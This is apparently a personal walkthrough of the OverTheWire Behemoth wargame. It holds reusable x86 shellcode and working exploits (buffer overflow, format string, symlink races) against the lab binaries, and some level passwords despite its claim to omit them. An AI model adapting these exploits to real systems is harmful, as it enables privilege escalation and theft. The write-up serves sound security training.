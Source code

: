 #+TITLE: Over The Wire: Behemoth
#+DATE: May 16, 2022
#+OPTIONS: toc:t num:nil

* About this Document
This document is a light-weight walk-through for solving the wargame
named Behemoth which is provided by "Over The Wire". It consists of
elementary security vulnerabilities on the 32 bit x86 platform. You
can find the wargame [[https://overthewire.org/wargames/behemoth/][here]].

Each level consists of one vulnerable program, that can be exploited
to escalate privileges and capture the password for the next level.

The format of this document is to present the vulnerability followed
by one possible exploit. No attempt is made to explain generic
knowledge such as C, GDB, or how the exploits work.

All passwords are omitted.

* Code & Conventions Used Throughout
The working directories throughout the outline are generated by =cd
$(mktemp -d)=. However, everything is presented in a relative manner.

All passwords are kept in =/etc/behemoth_pass/=.

Two pieces of code will be reused across levels. One being shellcode
and the other being =getenvaddr=. 

** Shellcode
Because we only care about getting the passwords by reading a file
located in =/etc/behemoth_pass/=, we don't care about spawning a shell
(unless we're forced to for some reason). Therefore, our shellcode
executes =/bin/cat= to print the contents of
=/etc/behemoth_pass/behemothX= to standard out. The =X= at the end of
the path is replaced by the appropriate level, which makes this
shellcode easily reusable for any level that calls for it.

*** =shellcode.asm=
#+NAME: shellcode.asm
#+BEGIN_SRC asm -n 1
BITS 32

xor eax, eax    ; Our null byte
push eax

mov edx, esp    ; Save the address of our null byte
push "/cat"
push "/bin"     ; Pushes "/bin/cat\0" on the stack
mov ebx, esp    ; Keep the address of "/bin/cat\0"

push eax        ; push "\0"
push "othX"     ; Change the X to the correct level number
push "ehem"
push "///b"
push "pass"
push "oth_"
push "ehem"
push "///b"
push "/etc"     ; Creates "/etc///behemoth_pass///behemothX\0"
mov ebp, esp    ; Save

push eax        ; NULL
push ebp        ; Pointer to "/etc///behemoth_pass///behemothX\0"
push ebx        ; Pointer to "/bin/cat\0"
mov ecx, esp    ; Pointer to array of strings that's terminated with NULL

mov al, 11      ; execve("/bin/cat", (char*[]) {"/bin/cat", "/etc///behemoth_pass///behemothX", NULL}, (char*[]) {NULL});
int 0x80        
#+END_SRC

*** Compiling
Edit line 12 by replacing =X= with the correct level number. Then use
NASM to assemble the shellcode.

#+BEGIN_EXAMPLE
$ nasm -o shellcode -f bin shellcode.asm
#+END_EXAMPLE

** Environment Variables
The environment variable =EGG= will be used to store shellcode. In
order to get the address of our environment variable, we'll use
=getenvaddr.c=. This code is taken from Jon Erikson's book "Hacking:
The Art of Exploitation".

*** =getenvaddr.c=
#+NAME: getenvaddr.c
#+BEGIN_SRC c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
int main(int argc, char** argv)
{
    const char* ptr = getenv(argv[1]);
    ptr += (strlen(argv[0]) - strlen(argv[2]))*2;
    printf("%x\n", ptr);
    return 0;
}
#+END_SRC

*** Compiling
To compile this, do the following:

#+BEGIN_EXAMPLE
$ gcc -m32 -o getenvaddr getenvaddr.c
#+END_EXAMPLE

* Level 0

** The Vulnerability
When the program is ran, the user is prompted for a password. The user
given password is checked against a hardcoded string. This string is
the password that causes the program to continue it's normal execution
and spawns a shell. Line 48 is where a shell owned by behemoth1 would
be spwaned if the correct password is given.

Line 33 is where the string comparsion happens between the given
password and the correct password. You can see our input string is
stored in =$ebp-0x5d= and the correct password is stored in
=$ebp-1c=. However, it is "encrypted". The function for encrypting and
decrypting the password is =memfrob=.

#+BEGIN_EXAMPLE -n 1
080485b1 <main>:
 80485b1:       55                      push   ebp
 80485b2:       89 e5                   mov    ebp,esp
 80485b4:       53                      push   ebx
 80485b5:       83 ec 5c                sub    esp,0x5c
 80485b8:       c7 45 e4 4f 4b 5e 47    mov    DWORD PTR [ebp-0x1c],0x475e4b4f
 80485bf:       c7 45 e8 53 59 42 45    mov    DWORD PTR [ebp-0x18],0x45425953
 80485c6:       c7 45 ec 58 5e 59 00    mov    DWORD PTR [ebp-0x14],0x595e58
 80485cd:       c7 45 f8 00 87 04 08    mov    DWORD PTR [ebp-0x8],0x8048700
 80485d4:       c7 45 f4 18 87 04 08    mov    DWORD PTR [ebp-0xc],0x8048718
 80485db:       c7 45 f0 2d 87 04 08    mov    DWORD PTR [ebp-0x10],0x804872d
 80485e2:       68 41 87 04 08          push   0x8048741
 80485e7:       e8 14 fe ff ff          call   8048400 <printf@plt>
 80485ec:       83 c4 04                add    esp,0x4
 80485ef:       8d 45 a3                lea    eax,[ebp-0x5d]
 80485f2:       50                      push   eax
 80485f3:       68 4c 87 04 08          push   0x804874c
 80485f8:       e8 73 fe ff ff          call   8048470 <__isoc99_scanf@plt>
 80485fd:       83 c4 08                add    esp,0x8
 8048600:       8d 45 e4                lea    eax,[ebp-0x1c]
 8048603:       50                      push   eax
 8048604:       e8 47 fe ff ff          call   8048450 <strlen@plt>
 8048609:       83 c4 04                add    esp,0x4
 804860c:       50                      push   eax
 804860d:       8d 45 e4                lea    eax,[ebp-0x1c]
 8048610:       50                      push   eax
 8048611:       e8 75 ff ff ff          call   804858b <memfrob>
 8048616:       83 c4 08                add    esp,0x8
 8048619:       8d 45 e4                lea    eax,[ebp-0x1c]
 804861c:       50                      push   eax
 804861d:       8d 45 a3                lea    eax,[ebp-0x5d]
 8048620:       50                      push   eax
 8048621:       e8 ca fd ff ff          call   80483f0 <strcmp@plt>
 8048626:       83 c4 08                add    esp,0x8
 8048629:       85 c0                   test   eax,eax
 804862b:       75 32                   jne    804865f <main+0xae>
 804862d:       68 51 87 04 08          push   0x8048751
 8048632:       e8 e9 fd ff ff          call   8048420 <puts@plt>
 8048637:       83 c4 04                add    esp,0x4
 804863a:       e8 d1 fd ff ff          call   8048410 <geteuid@plt>
 804863f:       89 c3                   mov    ebx,eax
 8048641:       e8 ca fd ff ff          call   8048410 <geteuid@plt>
 8048646:       53                      push   ebx
 8048647:       50                      push   eax
 8048648:       e8 f3 fd ff ff          call   8048440 <setreuid@plt>
 804864d:       83 c4 08                add    esp,0x8
 8048650:       68 62 87 04 08          push   0x8048762
 8048655:       e8 d6 fd ff ff          call   8048430 <system@plt>
 804865a:       83 c4 04                add    esp,0x4
 804865d:       eb 0d                   jmp    804866c <main+0xbb>
 804865f:       68 6a 87 04 08          push   0x804876a
 8048664:       e8 b7 fd ff ff          call   8048420 <puts@plt>
 8048669:       83 c4 04                add    esp,0x4
 804866c:       b8 00 00 00 00          mov    eax,0x0
 8048671:       8b 5d fc                mov    ebx,DWORD PTR [ebp-0x4]
 8048674:       c9                      leave
 8048675:       c3                      ret
#+END_EXAMPLE

** The Exploit
We can open up a debugger and either set a breakpoint at =strcmp= and
look at the decrypted string or we can call =memfrob= on the string
and look at it. We'll do the latter because it's a little more
educational.

There's some initializing on =$ebp-0x1c= happening at the beginning of
=main=. (You can see this above on lines 6 through 11.) Because of
this, we'll set the breakpoint at =printf= and then do our work. Let's
check the length of =$ebp-0x1c= and call =memfrob=.

#+BEGIN_EXAMPLE
$ gdb -q /behemoth/behemoth0
Reading symbols from /behemoth/behemoth0...(no debugging symbols found)...done.
(gdb) b printf
Breakpoint 1 at 0x8048400
(gdb) r
Starting program: /behemoth/behemoth0

Breakpoint 1, 0xf7e5b7d0 in printf () from /lib32/libc.so.6
#+END_EXAMPLE

At this point, the the password string is initialized at =$ebp-0x1c=
but it's encrypted. We can see the encrypted string by doing,

#+BEGIN_EXAMPLE
(gdb) x/s $ebp-0x1c
0xffffd6ac:     "OK^GSYBEX^Y"
#+END_EXAMPLE

Now let's decrypted it by calling =memfrob=. If you look at what's
happening, you'll see that =memfrob= takes 2 arguments; the first
being a pointer to a string and the second being the length of the
string. Therefore, in order to call =memfrob=, we need the length of
=$ebp-0x1c=. We can get this by calling =strlen=.

#+BEGIN_EXAMPLE
(gdb) call strlen($ebp-0x1c)
$1 = 11
(gdb) call memfrob($ebp-0x1c, 11)
$2 = 0
(gdb) x/s $ebp-0x1c
0xffffd6ac:     "eatmyshorts"
(gdb) quit
A debugging session is active.

        Inferior 1 [process 16747] will be killed.

Quit anyway? (y or n) y
#+END_EXAMPLE

Now that we have what we think is the password, we can test it.

#+BEGIN_EXAMPLE
$ /behemoth/behemoth0
Password: eatmyshorts
Access granted..
$ whoami
behemoth1
$
#+END_EXAMPLE

Now we have the correct privilages to read
=/etc/behemoth_pass/behemoth1=.

* Level 1

** The Vulnerability
A classic buffer overflow on the stack.

User input is being written to a buffer on the stack with =gets= that
is 0x43 (67) bytes long. Therefore, this is vulnerable to over writing
the return address of =main=.

#+BEGIN_EXAMPLE
0804844b <main>:
 804844b:       55                      push   ebp
 804844c:       89 e5                   mov    ebp,esp
 804844e:       83 ec 44                sub    esp,0x44
 8048451:       68 00 85 04 08          push   0x8048500
 8048456:       e8 a5 fe ff ff          call   8048300 <printf@plt>
 804845b:       83 c4 04                add    esp,0x4
 804845e:       8d 45 bd                lea    eax,[ebp-0x43]
 8048461:       50                      push   eax
 8048462:       e8 a9 fe ff ff          call   8048310 <gets@plt>
 8048467:       83 c4 04                add    esp,0x4
 804846a:       68 0c 85 04 08          push   0x804850c
 804846f:       e8 ac fe ff ff          call   8048320 <puts@plt>
 8048474:       83 c4 04                add    esp,0x4
 8048477:       b8 00 00 00 00          mov    eax,0x0
 804847c:       c9                      leave
 804847d:       c3                      ret
#+END_EXAMPLE

** The Exploit
We'll put our shellcode in =$EGG= and overwrite the return address from
=main= to point to =$EGG=.

#+BEGIN_EXAMPLE
$ export EGG=$(cat shellcode)
$ ./getenvaddr EGG /behemoth/behemoth1
ffffda2d
#+END_EXAMPLE

Because the x86 architecture is little endian, we have to put the
bytes in the correct order. The low-order byte goes first and the
high-order byte last.

#+BEGIN_EXAMPLE
$ printf "%s\x2d\xda\xff\xff" $(python -c "print('A' * 71)") | /behemoth/behemoth1
Password: Authentication failure.
Sorry.
XXXXXXXXXX
$
#+END_EXAMPLE

The shellcode displays the contents of
=/etc/behemoth_pass/behemoth2=, which I have censored here.

* Level 2

** The Vulnerability
This awkward program has a vulnerable race condition. It tries to
create a file who's filename is the PID of the process creating
it. Then the program sleeps for 33.3 minutes. When it wakes up, it
prints out the contents of the file it created.

Therefore, if we can replace the created file with a symbolic link
that points to =/etc/behemoth_pass/behemoth3=, then we can possibly
captured the password.

#+BEGIN_EXAMPLE -n 1
0804856b <main>:
 804856b:       8d 4c 24 04             lea    ecx,[esp+0x4]
 804856f:       83 e4 f0                and    esp,0xfffffff0
 8048572:       ff 71 fc                push   DWORD PTR [ecx-0x4]
 8048575:       55                      push   ebp
 8048576:       89 e5                   mov    ebp,esp
 8048578:       53                      push   ebx
 8048579:       51                      push   ecx
 804857a:       83 c4 80                add    esp,0xffffff80
 804857d:       e8 7e fe ff ff          call   8048400 <getpid@plt>
 8048582:       89 45 f4                mov    DWORD PTR [ebp-0xc],eax
 8048585:       8d 45 dc                lea    eax,[ebp-0x24]
 8048588:       83 c0 06                add    eax,0x6
 804858b:       89 45 f0                mov    DWORD PTR [ebp-0x10],eax
 804858e:       83 ec 04                sub    esp,0x4
 8048591:       ff 75 f4                push   DWORD PTR [ebp-0xc]
 8048594:       68 10 87 04 08          push   0x8048710
 8048599:       8d 45 dc                lea    eax,[ebp-0x24]
 804859c:       50                      push   eax
 804859d:       e8 9e fe ff ff          call   8048440 <sprintf@plt>
 80485a2:       83 c4 10                add    esp,0x10
 80485a5:       83 ec 08                sub    esp,0x8
 80485a8:       8d 85 78 ff ff ff       lea    eax,[ebp-0x88]
 80485ae:       50                      push   eax
 80485af:       ff 75 f0                push   DWORD PTR [ebp-0x10]
 80485b2:       e8 19 01 00 00          call   80486d0 <__lstat>
 80485b7:       83 c4 10                add    esp,0x10
 80485ba:       25 00 f0 00 00          and    eax,0xf000
 80485bf:       3d 00 80 00 00          cmp    eax,0x8000
 80485c4:       74 36                   je     80485fc <main+0x91>
 80485c6:       83 ec 0c                sub    esp,0xc
 80485c9:       ff 75 f0                push   DWORD PTR [ebp-0x10]
 80485cc:       e8 1f fe ff ff          call   80483f0 <unlink@plt>
 80485d1:       83 c4 10                add    esp,0x10
 80485d4:       e8 07 fe ff ff          call   80483e0 <geteuid@plt>
 80485d9:       89 c3                   mov    ebx,eax
 80485db:       e8 00 fe ff ff          call   80483e0 <geteuid@plt>
 80485e0:       83 ec 08                sub    esp,0x8
 80485e3:       53                      push   ebx
 80485e4:       50                      push   eax
 80485e5:       e8 36 fe ff ff          call   8048420 <setreuid@plt>
 80485ea:       83 c4 10                add    esp,0x10
 80485ed:       83 ec 0c                sub    esp,0xc
 80485f0:       8d 45 dc                lea    eax,[ebp-0x24]
 80485f3:       50                      push   eax
 80485f4:       e8 17 fe ff ff          call   8048410 <system@plt>
 80485f9:       83 c4 10                add    esp,0x10
 80485fc:       83 ec 0c                sub    esp,0xc
 80485ff:       68 d0 07 00 00          push   0x7d0
 8048604:       e8 c7 fd ff ff          call   80483d0 <sleep@plt>
 8048609:       83 c4 10                add    esp,0x10
 804860c:       8d 45 dc                lea    eax,[ebp-0x24]
 804860f:       c7 00 63 61 74 20       mov    DWORD PTR [eax],0x20746163
 8048615:       c6 40 04 00             mov    BYTE PTR [eax+0x4],0x0
 8048619:       c6 45 e0 20             mov    BYTE PTR [ebp-0x20],0x20
 804861d:       e8 be fd ff ff          call   80483e0 <geteuid@plt>
 8048622:       89 c3                   mov    ebx,eax
 8048624:       e8 b7 fd ff ff          call   80483e0 <geteuid@plt>
 8048629:       83 ec 08                sub    esp,0x8
 804862c:       53                      push   ebx
 804862d:       50                      push   eax
 804862e:       e8 ed fd ff ff          call   8048420 <setreuid@plt>
 8048633:       83 c4 10                add    esp,0x10
 8048636:       83 ec 0c                sub    esp,0xc
 8048639:       8d 45 dc                lea    eax,[ebp-0x24]
 804863c:       50                      push   eax
 804863d:       e8 ce fd ff ff          call   8048410 <system@plt>
 8048642:       83 c4 10                add    esp,0x10
 8048645:       b8 00 00 00 00          mov    eax,0x0
 804864a:       8d 65 f8                lea    esp,[ebp-0x8]
 804864d:       59                      pop    ecx
 804864e:       5b                      pop    ebx
 804864f:       5d                      pop    ebp
 8048650:       8d 61 fc                lea    esp,[ecx-0x4]
 8048653:       c3                      ret
#+END_EXAMPLE

** The Exploit

Because the process is running as behemoth3, we need to ensure the
process has permission to write to the directories and files we
need. To accomplish this, we'll make a new directory and give it 777
permissions. Then we'll make a file called =pass.txt= and give it the
same permissions.

#+BEGIN_EXAMPLE
$ mkdir w
$ chmod 777
$ cd w
$ touch pass.txt
$ chmod 777 pass.txt
#+END_EXAMPLE

This hack will take 33.3 minutes to complete. Because we don't want to
sit here watching for a password to pop up, we'll run the process in
the background and pipe the output to =pass.txt=. After we start the
process, we'll know the PID and hence know the filename we need to
overwrite with a symbolic link.

#+BEGIN_EXAMPLE
$ behemoth/behemoth2 > pass.txt &
[1] 29355
$ ln -sf /etc/behemoth_pass/behemoth3 29355
#+END_EXAMPLE

We can run the following shell script snippet to sound the bell when the
process has ended.

#+BEGIN_EXAMPLE
$ while (2>&1 kill -0 29355 | grep permitted > /dev/null); do
> echo "Process still running..."
> sleep 5
> done; \
> echo -ne '\007'; \ # Ring the bell
> cat pass.txt
#+END_EXAMPLE

* Level 3
** The Vulnerability
This level has a format string vulnerability. The user is prompted for
input and that input is passed directly to =printf=. Therefore, a user
can inject formatting syntax that =printf= understands.

This can be used to overwrite parts of memory using the =%n=
specificer; which implies we can overwrite a return address, parts of
the =.plt= section or something else we choose.

Looking at the dissasembly of =main=, we see =puts= is called at
address =0x80484cc=.

#+BEGIN_EXAMPLE
0804847b <main>:
 804847b:       55                      push   ebp
 804847c:       89 e5                   mov    ebp,esp
 804847e:       81 ec c8 00 00 00       sub    esp,0xc8
 8048484:       68 60 85 04 08          push   0x8048560
 8048489:       e8 a2 fe ff ff          call   8048330 <printf@plt>
 804848e:       83 c4 04                add    esp,0x4
 8048491:       a1 c0 97 04 08          mov    eax,ds:0x80497c0
 8048496:       50                      push   eax
 8048497:       68 c8 00 00 00          push   0xc8
 804849c:       8d 85 38 ff ff ff       lea    eax,[ebp-0xc8]
 80484a2:       50                      push   eax
 80484a3:       e8 98 fe ff ff          call   8048340 <fgets@plt>
 80484a8:       83 c4 0c                add    esp,0xc
 80484ab:       68 74 85 04 08          push   0x8048574
 80484b0:       e8 7b fe ff ff          call   8048330 <printf@plt>
 80484b5:       83 c4 04                add    esp,0x4
 80484b8:       8d 85 38 ff ff ff       lea    eax,[ebp-0xc8]
 80484be:       50                      push   eax
 80484bf:       e8 6c fe ff ff          call   8048330 <printf@plt>
 80484c4:       83 c4 04                add    esp,0x4
 80484c7:       68 7e 85 04 08          push   0x804857e
 80484cc:       e8 7f fe ff ff          call   8048350 <puts@plt>
 80484d1:       83 c4 04                add    esp,0x4
 80484d4:       b8 00 00 00 00          mov    eax,0x0
 80484d9:       c9                      leave  
 80484da:       c3                      ret
 #+END_EXAMPLE

Because the program is calling =puts= from a dynamically loaded
library, it needs to know how to find the address where =puts=
resides. This information is supplied by the =.plt= section.

 #+BEGIN_EXAMPLE
 08048350 <puts@plt>:
 8048350:       ff 25 ac 97 04 08       jmp    DWORD PTR ds:0x80497ac
 8048356:       68 10 00 00 00          push   0x10
 804835b:       e9 c0 ff ff ff          jmp    8048320 <.plt>
 #+END_EXAMPLE

 We can see from the above diassembly that the pointer to =puts= is
 =0x80497ac=.
 
** The Exploit

Let's first prepare our shellcode.

#+BEGIN_EXAMPLE
$ export EGG=$(cat shellcode)
$ ./getenvaddr EGG /behemoth/behemoth3
ffffde2d
#+END_EXAMPLE

From the =.plt= section, we know the pointer for =puts= is
=0x80497ac=. We'll overwrite the value in two steps. First overwriting
2 bytes at =0x80497ac=. Then overwriting 2 bytes at =0x80497ae=. The
order matters. The =%n= specifier writes 4 bytes (an unsigned int) and
we don't want to overwrite the upper 2 bytes of our address when
writing the lower two bytes.

Our string for =printf= will conceptually consist of two parts. The
first is ="\xac\x97\x04\x08\xae\x97\x04\x08"= which will act as
pointers for =%n=. The second part will have this structure
="%c%1$n%c%2$n"=. We just have to figure out how many chars to print
so that =%n= will write the correct value.

If we use the strings above as they are, the lower 2 bytes would be
written with 0x09 and the upper 2 bytes would be 0x0a. We need the
lower 2 bytes to be 0xde2d. Therefore, we need to write 56869 (0xde25)
more characters and then 8658 (0x21d2) more characters for the last 2
bytes.

The final result looks like this:

#+BEGIN_EXAMPLE
$ printf '\xac\x97\x04\x08\xae\x97\x04\x08%%56869c%%1$n%%8658c%%2$n' | /behemoth/behemoth3

XXXXXXXXXX
#+END_EXAMPLE

* Level 4

** The Vulnerability

** The Exploit

#+BEGIN_SRC
#include <stdio.h>
#include <unistd.h>

int main() {
    int pid = fork();
    char file[] = "/tmp/XXXXXXXXXXXXXXXX";

    if (pid == 0) {
        printf("Child is sleeping...\n");
        sleep(5);
        printf("Child woke up!\n");
        printf("Executing behemoth4");
        execl("/behemoth/behemoth4", "behemoth4", NULL);
    } else {
        sprintf(file + sizeof("/tmp/") - 1, "%d", pid);
        printf("Making symlink: %s -> /etc/behemoth_pass/behemoth5\n", file);
        symlink("/etc/behemoth_pass/behemoth5", file);
    }

    return 0;
}
#+END_SRC

* Level 5
** The Vulnerability

** The Exploit

#+BEGIN_EXAMPLE
behemoth5@behemoth:/tmp/tmp.qYjggWFTSv$ nc -u -l -p 1337 > pass &
[2] 3099
behemoth5@behemoth:/tmp/tmp.qYjggWFTSv$ /behemoth/behemoth5
behemoth5@behemoth:/tmp/tmp.qYjggWFTSv$ ls
pass
behemoth5@behemoth:/tmp/tmp.qYjggWFTSv$ cat pass
mayiroeche

[2]+  Stopped                 nc -u -l -p 1337 > pass
behemoth5@behemoth:/tmp/tmp.qYjggWFTSv$
behemoth5@behemoth:/tmp/tmp.qYjggWFTSv$
#+END_EXAMPLE

* Level 6

** The Vulnerability

** The Exploit

#+NAME: shellcode6.asm
#+BEGIN_SRC asm -n 1
BITS 32

%define PUTS [0x804a020]

push ebp
mov ebp,esp

xor eax, eax
push eax
push "itty"
push "lloK"
push "xxHe"
inc esp
inc esp
push esp
call PUTS

mov esp, ebp
pop ebp
ret
#+END_SRC

#+BEGIN_EXAMPLE
behemoth6@behemoth:/tmp/tmp.jH0IoFX5KX$ mkdir w
behemoth6@behemoth:/tmp/tmp.jH0IoFX5KX$ chmod 777 w
behemoth6@behemoth:/tmp/tmp.jH0IoFX5KX$ cd w
behemoth6@behemoth:/tmp/tmp.jH0IoFX5KX/w$ nasm -o shellcode.txt ../shellcode.asm
behemoth6@behemoth:/tmp/tmp.jH0IoFX5KX/w$ /behemoth/behemoth6
Correct.
$ cat /etc/behemoth_pass/behemoth7
baquoxuafo
$
#+END_EXAMPLE

* Level 7

** The Vulnerability

** The Exploit

#+BEGIN_EXAMPLE
$ $(python3 -c 'print("A" * 528, end="")'; printf "\xe0\xd4\xff\xff") $(cat shellcode.bin)
#+END_EXAMPLE

